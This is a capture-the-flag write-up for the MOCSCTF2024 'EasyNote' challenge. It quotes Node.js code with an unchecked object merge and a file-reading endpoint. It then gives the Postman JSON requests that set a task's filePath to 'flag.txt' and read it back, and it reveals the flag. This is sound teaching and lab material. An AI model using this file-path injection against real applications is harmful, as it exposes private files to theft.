


# MOCSCTF2024 - EasyNote

- Write-Up Author: 菜鳥程序員1號 \[[菜鳥程序員1號](https://github.com/ian-ng)\]

- Flag: MOCSCTF{prot000000type_1s_Amazing_CH33lenge}

## Challenge Description:

>this is challenge description
>
>[file](./assets/easy nodes.js)
>
http://34.150.35.67:30302/

## Write up  
1. Open the website
- you will see only the text "Welcome my Task System seems it hasn't finished" on the website

2. Since nothing useful on the website link, we look into the provided js file
- you will see the following code
```javascript
app.post('/addTask', (req, res) => {
    const { id, description } = req.body;
    if (typeof id === 'string' && typeof description === 'string') {
        tasks[id] = { description };
        res.json({ status: 'success', message: 'Task added successfully' });
    } else {
        res.json({ status: 'error', message: 'Invalid task format' });
    }
    console.log("Current tasks:", tasks);
});
```
- the /addTask endpoint required two string parameters, ```id``` and ```description```
- I'm using Postman to send a POST request to the server with the following payload
```json
{
    "id": "1",
    "description": "hello world"
}
```

- it show "Task updated successfully" as expected

3. We can see the remaining path in the js file
```javascript
app.post('/updateTask', (req, res) => {
    const { id, updates } = req.body;
    if (tasks.hasOwnProperty(id) && typeof updates === 'object') {
        tasks[id] = merge(tasks[id], updates);
        res.json({ status: 'success', message: 'Task updated successfully' });
    } else {
        res.json({ status: 'error', message: 'Invalid task or updates format' });
    }
    console.log("Updated tasks:", tasks);
});
app.post('/readFile', (req, res) => {
    const { id } = req.body;
    const task = tasks[id];
    if (task) {
        const filePath = task.filePath;
        if (filePath) {
            fs.readFile(filePath, 'utf8', (err, data) => {
                if (err) {
                    console.error('Error reading file:', err);
                    res.status(500).send('Error reading file');
                } else {
                    res.send(data);
                }
            });
        } else {
            res.status(400).send('No file path specified for this task');
        }
    } else {
        res.status(400).send('Invalid task ID');
    }
});
```
- the /updateTask endpoint required a string ```id``` and an object ```updates```
- and the /readFile endpoint will read the ```task.filePath``` and return the content of the file (probably the flag, so we guest the file path is "flag.txt")

4. using Postman to send a POST request to update the task
```json
{
    "id": "1",
    "updates": {
        "filePath": "flag.txt"
    }
}
```


5. using Postman to send a POST request to read the file to see if the path is correct
```json
{
    "id": "1"
}
```


6. Bingo! we got the flag `MOCSCTF{prot000000type_1s_Amazing_CH33lenge}`
